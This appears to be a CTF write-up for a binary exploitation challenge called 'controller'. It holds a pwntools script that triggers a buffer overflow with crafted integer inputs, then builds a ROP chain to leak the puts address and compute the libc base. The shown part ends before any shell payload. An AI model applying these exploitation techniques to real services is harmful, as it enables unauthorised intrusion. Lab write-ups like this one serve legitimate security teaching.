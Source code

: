 Step 1, Send two inputs to get bufferoverflow:
```python
from pwn import *

binary = context.binary = ELF('./controller')

if args.REMOTE:
	libc = ELF('./libc.so.6')
    p = remote('188.166.172.13',30231)
else:
	# When we running locally use this libc, in remote we will use the attached libc
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process(binary.path)

def get_bof():
        #Multipile two resources to get buffer overflow
		resources_input='-1 -65338'
        print(p.recvuntil(':').decode('utf-8'))
        print(resources_input)
        p.sendline(resources_input)
        print(p.recvuntil('>').decode('utf-8'))
        print('3')
        p.sendline('3')
        print(p.recvuntil('>').decode('utf-8'))

#Multipile two resources to get buffer overflow again
get_bof()
```

Next, We need to find the offset between binary ```puts``` address to attached ``libc``` address:

```python
#leak puts address - Reading to puts with address of puts from got then call to calculator again
pop_rdi = next(binary.search(asm('pop rdi; ret'))) #pop rdi gadget

libc_leak_payload  = 0x28 * b'A' # buffer 28 bytes + padding
libc_leak_payload += p64(pop_rdi)
libc_leak_payload += p64(binary.got.puts)
libc_leak_payload += p64(binary.plt.puts)
libc_leak_payload += p64(binary.sym.calculator)

p.sendline(libc_leak_payload)
print(p.recvuntil('ingored\n').decode('utf-8'))

#recv bytes of puts address from binary, then calculate the offset from binary puts address to libc puts address - leak
data_bytes = p.recv(6)
puts = u64(data_bytes + b'\0\0')
log.info('puts locate on: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('puts libc.address: ' + hex(libc.address))
```
